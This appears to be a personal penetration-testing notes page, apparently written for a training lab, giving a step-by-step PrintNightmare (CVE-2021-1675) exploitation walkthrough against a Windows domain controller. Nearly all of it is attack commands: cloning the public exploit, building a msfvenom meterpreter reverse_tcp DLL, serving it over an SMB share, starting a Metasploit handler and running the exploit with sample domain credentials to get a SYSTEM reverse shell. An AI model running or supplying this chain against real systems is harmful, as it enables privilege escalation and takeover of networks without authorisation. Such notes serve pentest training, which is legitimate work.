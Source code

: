 ```yaml
---
title: PrintNightmare
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
---
```

# 🖨️ PrintNightmare

`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems.

We will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit.

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

For this exploit to work successfully, we will need to use cube0x0's version of Impacket:

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Enumerating for MS-RPRN:

```bash
# We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.
rpcdump.py @$DomainControllerIP | egrep 'MS-RPRN|MS-PAR'
# Example:
# rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using msfvenom.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IPhost LPORT=8080 -f dll > $FileName.dll
# Example:
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

We will then host this payload in an SMB share we create on our attack host using smbserver.py.

```bash
# Creating a Share with smbserver.py
sudo smbserver.py -smb2support $ShareName /path/to/$FileName.dll
# Example:
# sudo smbserver.py -smb2support CompData /home/
# This will leave our terminal in the host machine with no other use than that of sharing.
```

Then we will need to open a two new terminals in our attacker machine:

```bash
# In the first terminal we will configure ant start a MSF multi/handler
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```

```bash
# In the second terminal we will connect via ssh with the host machine:
ssh $user@$ip

# Then we run the exploit:
sudo python3 /opt/CVE-2021-1675/CVE-2021-1675.py $user/$user:$password@$domainControllerIP  '\\$ipHostMachine\$ShareName\$filename.dll'
# Example:
# sudo python3 /opt/CVE-2021-1675/CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

The payload will then call back to our multi handler giving us an elevated SYSTEM shell.

